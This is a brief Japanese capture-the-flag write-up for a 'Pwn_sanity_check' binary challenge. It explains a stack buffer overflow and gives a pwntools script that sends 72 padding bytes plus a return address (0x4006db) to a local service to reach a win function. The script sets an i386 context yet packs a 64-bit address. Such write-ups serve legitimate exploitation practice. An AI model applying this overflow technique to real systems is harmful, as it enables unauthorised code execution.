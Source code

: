 # Pwn_sanity_check

## description 

実行ファイルが与えられるのでこれを解いてflagをゲットするおなじみのやつ

## solution

| local values (buffer[64]) |
| ------------------------- |
| local values ( cmp)       |
| rbp                       |
| return address            |

でbufferで0x100読み取っているので72文字ほど適当な文字を送って、winに飛ばせればいい

```
from pwn import *

context.update(arch="i386", os="linux")
p = remote('localhost',4088)
#e = ELF("./pwn_sanity_check")
#p = e.process(level="error")
payload = b"A" * 72 + p64(0x4006db) 

# overflow me:
p.sendline(payload)
p.interactive()

```


